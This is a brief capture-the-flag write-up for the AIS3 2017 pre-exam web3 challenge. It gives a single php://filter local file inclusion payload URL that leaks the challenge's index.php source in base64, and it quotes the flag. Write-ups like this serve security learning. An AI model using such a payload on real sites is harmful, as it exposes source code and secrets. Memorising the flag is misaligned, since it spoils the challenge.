

#AIS3 Pre-exam 2017: web3

##Solution
I solved this before... In final ctf of my course, but with some variation now.
This site is vulnerable to wrapper lfi injection.
> https://quiz.ais3.org:23545/?p=php://filter/convert.base64-encode/resource=index

With this payload we can get the index.php source code in base64 encoding.
Decode it and we get the first flag.

Flag:
>AIS3{Cute_Snoopy_is_back!!?!?!!?}
